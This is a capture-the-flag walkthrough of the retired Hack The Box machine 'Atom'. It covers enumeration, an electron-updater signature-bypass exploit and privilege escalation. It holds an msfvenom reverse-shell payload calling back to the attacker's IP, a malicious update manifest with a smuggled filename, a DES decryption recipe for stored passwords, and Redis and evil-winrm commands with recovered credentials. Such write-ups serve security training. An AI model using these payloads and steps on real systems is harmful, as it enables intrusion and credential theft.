 # Atom

This is the write-up for the box Atom that got retired at the 10th July 2021.
My IP address was 10.10.14.3 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.237    atom.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/atom.nmap 10.10.10.237
```

```
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| http-methods:
|_  Potentially risky methods: TRACE
135/tcp open  msrpc        Microsoft Windows RPC
443/tcp open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| tls-alpn:
|_  http/1.1
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Heed Solutions                                                                      
445/tcp open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows
```

The web services on HTTP (port 80) and HTTPS (port 443) forward to the same website.

## Checking SMB (Port 445)

Enumerating the SMB shares:
```
smbclient -N -L //10.10.10.237
```

There is a share called _Software_Updates_ with three empty directories and a PDF file:
```
smbclient -N //10.10.10.237/Software_Updates
```
```
smb: \> dir
  .                                   D        0  Sat May 28 15:47:34 2022
  ..                                  D        0  Sat May 28 15:47:34 2022
  client1                             D        0  Sat May 28 15:47:34 2022
  client2                             D        0  Sat May 28 15:47:34 2022
  client3                             D        0  Sat May 28 15:47:34 2022
  UAT_Testing_Procedures.pdf          A    35202  Fri Apr  9 13:18:08 2021

                4413951 blocks of size 4096. 1371473 blocks available

smb: \> get UAT_Testing_Procedures.pdf
```

The PDF document has the title _"Heedv1.0 - Internal QA Documentation"_ and explains something about an application.

Summary of document:
- Note taking application built with electron-builder which helps users in taking important notes.
- There’s no server interaction when creating notes.
- To initiate the QA process, just place the updates in one of the "client" folders, and the appropriate QA team will test it to ensure it finds an update and installs it correctly.

## Checking HTTP (Port 80)

On the website its introducing _A Simple Note Taking Application_ that can be downloaded by clicking on the _"Download for Windows"_ button.
It is a ZIP archive that has to be decompressed:
```
unzip heed_setup_v1.0.0.zip
```

It contains an executable file for Windows and as described in the PDF file, this application is built with [Electron-builder](https://www.electron.build/).
```
file 'heedv1 Setup 1.0.0.exe'

heedv1 Setup 1.0.0.exe: PE32 executable (GUI) Intel 80386, for MS Windows, Nullsoft Installer self-extracting archive
```

This is an self-extracting archive that can be decompressed with any archive manager to extract all contained files.
In there is a **7z archive** that also has to be extracted:
```
7z x app-64.7z
```

It extracts several folders, DLL files and more that can be analyzed to search for secrets or other sensitive information.
The file _resources/app-update.yml_ shows the URL of the update server:
```
url: 'http://updates.atom.htb'
```

After adding this hostname to our _/etc/hosts_ file, the hostname can be reached but it hosts the same website as before.

The file _resources/app.asar_ is an [Electron Archive](https://github.com/electron/asar) that can be decompressed with the **asar** command:
```
asar e app.asar .
```

The file _main.js_ shows that it uses the _electron-updater_ module.
This module is vulnerable to a **Remote Code Execution** vulnerability that is described in the the [blog of Doyensec](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html).

Creating malicious binary to execute with **Msfvenom**:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=9001 -f exe -o shell.exe
```
```
sha512sum shell.exe | awk '{print $1}' | xxd -r -p | base64 -w 0
```

Creating malicious update definition as described in the blog article with the hash of _shell.exe_:
```yml
version: 1.2.3
files:
  - url: s'hell.exe
    sha512: XUNa1lRdQ4KIrrFh1pavUWxZTbQrE9IWPM2VG6/52TilmBmWMm2+fA5MZjYMowmOaktkSkzcRVEszq54PRlcvQ==
    size: 7168
path: s'hell.exe
sha512: XUNa1lRdQ4KIrrFh1pavUWxZTbQrE9IWPM2VG6/52TilmBmWMm2+fA5MZjYMowmOaktkSkzcRVEszq54PRlcvQ==
releaseDate: '2021-11-20T11:17:02.627Z'
```

Uploading _latest.yml_ and _shell.exe_ into the SMB share as described in the PDF document:
```
smb: \> cd client1

smb: \client1\> put latest.yml
putting file latest.yml as \client1\latest.yml

smb: \client1\> put shell.exe s'hell.exe
putting file shell.exe as \client1\s'hell.exe
```

After a while, the Heed application calls the YML file for updates, which executes _shell.exe_ and the listener on my IP and port 9001 starts a reverse shell as the user _jason_.

## Privilege Escalation

In the home folder of _jason_ in the folder _Downloads\PortableKanban_ is the application _PortableKanban.exe_ and the corresponding configuration files.
The file _PortableKanban.cfg_ has information about a **Redis database** on port 6379 and an encrypted password:
```
{"DataSource":"RedisServer",
"DbServer":"localhost",
"DbPort":6379,
"DbEncPassword":"Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb",
(...)
```

Scanning port 6379 to check if it is accessible remotely:
```
nmap -p 6379 10.10.10.237
```
```
PORT     STATE SERVICE
6379/tcp open  redis
```

This application uses a [static key and initialization vector](https://github.com/fahmifj/PortableKanban-decrypt/blob/main/pk-decrypt.py) and can be decrypted with several scripts.
Here is the [Recipe for CyberChef](https://cyberchef.org/):
```
From_Base64('A-Za-z0-9+/=',true)
DES_Decrypt({'option':'UTF8','string':'7ly6UznJ'},{'option':'UTF8','string':'XuVUm5fR'},'CBC','Raw','Raw')
```

Login into the **Redis** service:
```
redis-cli -h 10.10.10.237

10.10.10.237:6379> auth kidvscat_yes_kidvscat
```

Enumerating users and keys:
```
10.10.10.237:6379> keys *

1) "pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff"
2) "pk:ids:User"
3) "pk:ids:MetaDataClass"
4) "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
```
```
10.10.10.237:6379> get "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"

"{\"Id\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"Name\":\"Administrator\",\"Initials\":\"\",\"Email\":\"\",\"EncryptedPassword\":\"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi\",\"Role\":\"Admin\",\"Inactive\":false,\"TimeStamp\":637530169606440253}"
```

There is a user _Administrator_ with an encrypted password, which can be cracked with the same **CyberChef recipe** as before.

Using **Evil-WinRM** to login to the box as _Administrator_:
```
evil-winrm -i 10.10.10.237 -u Administrator -p kidvscat_admin_@123
```

The password works and it spawns a shell as _Administrator_!
